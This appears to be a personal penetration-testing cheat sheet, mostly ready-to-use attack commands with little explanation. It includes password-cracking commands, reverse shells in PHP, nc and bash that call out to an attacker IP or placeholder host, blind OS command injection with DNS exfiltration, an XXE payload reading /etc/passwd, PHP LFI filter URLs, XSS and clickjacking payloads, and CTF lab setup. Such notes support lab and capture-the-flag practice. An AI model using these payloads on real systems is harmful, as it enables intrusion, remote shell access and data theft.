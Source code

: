 # Hashcat

- hashcat -m 1800 -a 0 hash.txt rockyou.txt

# Find command

```sh
find / -type f -newermt 2016-09-11 ! -newermt 2016-09-13 2>/dev/null
```
# Upgrading to a shell
```sh
python -c 'import pty;pty.spawn('/bin/bash')'
SHELL=/bin/bash script -q /dev/null
```

# Reverse Shell

```sh
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.2.97 9001 >/tmp/f
```

# Blind OS injection

```sh

||whoami>/var/www/images/output.txt||

# using DNS exfiltration Technique

email=x||nslookup+x.burpcollaborator.net||

```

# XXE Attacks

```html
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```
# XSS payloads

```html
<script>onclick(alert("Hello"));</script>
// window.location.hostname

```

# John Hashing

```sh

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

# Encryption gpg
- gpg --cipher-algo [encryption type] [encryption method] [file to encrypt] 
- gpg --cipher-algo AES-256 --symetric xyz.txt

## decryption
-- gpg xyz.txt

# How to crack encrypted files using john the ripper
- gpg2john [encrypted gpg file] > [filename of the hash you want to create]

# Reverse a wordlist
```sh
tac data.txt > new_data.txt
```
# Email re
-   email_re = re.compile(r'([a-zA-Z0-9_\+\-\.]+)@(([[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{2,4}|[0-9]{1,3})(\]?)')

## Php reverse shell function
```php

function execInBackground($cmd) { 
                if (substr(php_uname(), 0, 7) == "Windows"){ 
                                    pclose(popen("start /B ". $cmd, "r"));  
                                                    } 
                                                                    else { 
                                                                                        exec($cmd . " > /dev/null &");   
                                                                                                            } 
                                                                                                                            } 
                                                                                                                                        execInBackground("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_HERE/YOUR_PORT_HERE 0>&1'");

```
# PHP LFI
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

# Practice Labs
Capture the Flag (CTF) API Portal

    docker pull sbacker/ctfapi
    docker run --name ctfapi1 -p 8000:8000 -it -d sbacker/ctfapi

Witcher Portal

    docker pull sbacker/witcherportal
    docker run -it -d --name witcher10 -p8080:8080 -e PYTHONUNBUFFERED=1 sbacker/witcherportal

# Clickjack Attack Payload

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acbe1f391e8fd65480c7a7ac017500d7.web-security-academy.net/exploit"></iframe>

```
